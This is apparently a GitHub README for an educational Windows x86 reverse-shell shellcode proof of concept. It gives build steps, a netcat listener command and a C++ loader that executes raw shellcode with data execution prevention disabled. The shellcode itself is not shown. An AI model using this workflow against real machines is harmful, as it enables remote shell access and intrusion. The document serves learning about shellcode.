 # WinX86 Shellcode (Reverse Shell)
This POC was done for educational purpose and walkthrough to understand how windows shellcode is work and get insight about how to extract windows APIs from Dlls.

## Getting Started

These instructions will get you a copy of the POC files on your local system for purpose of testing the shellcode.

### Prerequisites
**To get the things work you have to download:**
* [MASM32 sdk](https://www.masm32.com/download.htm) - The Microsoft Assembler (commonly known as MASM)
* nmake  - It's used for building purpose and it's distributed with visual studio. 
* [python3](https://www.python.org/downloads/) - python3 interpreter.
* netcat - This simple utility reads and writes data across TCP or UDP network connections. 

### Usage
1.   Clone the repository:
```
git clone https://username@bitbucket.org/teamsinspace/documentation-tests.git
```
2. Open **makefile.txt** and change **masmPath** based on its location in your local machine:
```
masmPath= //your masm32 path
```
3. Open **Developer Command Prompt for VS** and execute following commands to build the **shellcode.asm** file to **shellcode.exe** file:
```
cd ProjectFolder path
nmake makefile.txt
```
4. To extract the shellcode bytes from **shellcode.exe** into output file called **shellcodebytes.txt** execute the following:
```
python3 shellcode_extractor.py shellcode.asm 
```

5. open **CMD** and make **netcat** listen on port what you have specified in shellcode.asm (the default is 4444):
```
nc -lvp 4444
```

6. create c or c++ project and disable **data execution prevention (DEP)** then write the following code:

```
char shellcode[] = "";	// copy shellcode from shellcodebytes.txt
char *ptr = new char[sizeof(shellcode)];
memcpy(ptr, shellcode, sizeof(shellcode));
((void(*)())ptr)();
```

### Testing environment
* The code was tested on **windows10**.


